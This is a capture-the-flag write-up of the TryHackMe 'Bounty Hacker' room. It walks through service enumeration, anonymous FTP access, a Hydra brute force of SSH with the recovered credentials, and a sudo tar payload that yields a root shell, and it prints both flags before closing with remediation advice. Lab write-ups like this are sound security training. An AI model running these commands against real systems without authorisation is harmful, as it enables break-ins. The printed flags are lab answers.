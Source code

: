 # Lab Report - Bounty Hacker


# Overview 
- **Category**: Web, FTP
- **Difficulty**: Easy 
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/cowboyhacker
- **Tags**: #enumeration #Brute-force #services #privesc 

## Challenge Description 
>**- An easy boot-to-root machine.** 

## Resolution Summary 
>**We enumerated services using `Nmap`. Next we found an FTP server with Anonymous login enable, which contained information that allowed us to perform a brute-force attack on the SSH server. Finally, we escalated our privileges through misconfigured sudo permissions, involving the`tar` binary.**

# Information Gathering 
## Active Reconnaissance 
- **As we were given an IP address, we  started by performing an `Nmap` port scan, we  scanned for services' version in order to uncover potential version-related vulnerabilities.** 
```bash
sudo nmap -sV 10.10.181.45
```
- Note: adding the `-p-` flag did not reveal additional information. 

- **We got the following results from the `Nmap` scan:**
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- **Here we discovered several attack vectors to investigate, we started by the web application.** 
### HTTP (80)
- **For starters, we  ran `GoBuster` in order to discover hidden directories. We used SecList's medium list for this task:**
```bash
gobuster dir -u 10.10.181.45 -w 
/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
```

- **While the previous command was running, we took a look at the web, and particularly the source code since there was not much to it. However, we did not find anything relevant.**

- **We got the following results from `GoBuster`:**
```bash
/images               (Status: 301) [Size: 313] [--> http://10.10.181.45/images/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.181.45/javascript/]
/server-status        (Status: 403) [Size: 277]
```

- **Just in case, we uploaded the only image available and checked its metadata for hidden information using `exiftool`:** 
```bash
exiftool crew.png
```
- Note: it did not lead to any relevant track. 

- **Since there was not anything left to the web application, we proceeded to save the  usernames we encountered since we will be targeting the FTP and SSH server next:** 
```bash
Spike (the one supposed to hack the system), Jet, Ed, Faye, Edward, Ein.
```

### FTP (21)
- **Next,  we headed straight to the FTP server. We connected to it using the `ftp` command:** 
```bash
ftp 10.10.181.45
```

- **One of the first reflexes we should have here is to attempt Anonymous login, which succeeded in this case.** 
- **Another reflex would be to use `help` to list the available commands:**
```bash
ftp> help
```

- **Upon further investigation, we encounter two .txt files, `locks.txt` and `task.txt`**
- **The `locks.txt` file was formatted similar to a wordlist (containing passwords here), hence it may become handy when trying to brute-force  SSH credentials.** 
- **The `task.txt` file revealed the following message, which provided us with more usernames to test when brute-forcing the SSH server:** 
```bash
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
# Exploitation 
- **Now that we were done with the enumeration step, we attempted to brute-force the SSH server with the wordlist we recovered (`locks.txt`). For this task we used  `Hydra`.**
- **First, we made a a user list with all the usernames we found up until now. Subsequently, we proceeded by using `Hydra`:** 
```bash
hydra -L userlist.txt -P wordlist.txt ssh://10.10.181.45 
```

- **We found a valid pair of credentials :**
```bash
[DATA] attacking ssh://10.10.181.45:22/
[22][ssh] host: 10.10.181.45   login: lin   password: RedDr4gonSynd1cat3
```

- **Which allowed us to gain access to the SSH server (22) by using:** 
```bash
ssh lin@10.10.181.45
```

- **Upon logging in, we were greeted by the first flag:** 
	- **user.txt -> `THM{CR1M3_SyNd1C4T3}`.

# Privilege Escalation 
- **Our goal here was to find a way to escalate our privileges and access the final flag.**
- **For started, we tried to see which command we could possibly use with sudo:**
```bash
sudo -l
```

- **And here was the result:** 
```bash
User lin may run the following commands on ip-10-10-181-45:
    (root) /bin/tar
```

- **Once we found this clue, we directly went to check on [GTFOBins](https://gtfobins.github.io/) for privileges escalation vectors.** 
- **We found the following payload to use:** 
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- **We confirmed that the attempt was successful by using:**
```bash 
whoami
root #Result
```

- **Finally, we were able to access the final flag:**
```bash
find / -type f -name "root.txt" 
cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
# Trophy 
**User.txt → `THM{CR1M3_SyNd1C4T3}`**

**Root.txt → `THM{80UN7Y_h4cK3r}`**

# Remediation Summary
- **Anonymous login:** It should be disable to reinforce authentication on FTP servers.  
- **Storing passwords in cleartext:** Passwords can be safely stored using trusted password managers. 
- **Misconfigured sudo permissions:**  Sudo usage should be restricted to essential commands only. 
# Lessons Learned
- **Any piece of information can be useful:** Saving usernames to make a wordlist was proven to be useful, as it permitted to successfully brute-force the SSH login credentials. 
- **GTFOBins in privesc**: Checking GTFOBins allows you to transform your findings into practical exploits. 
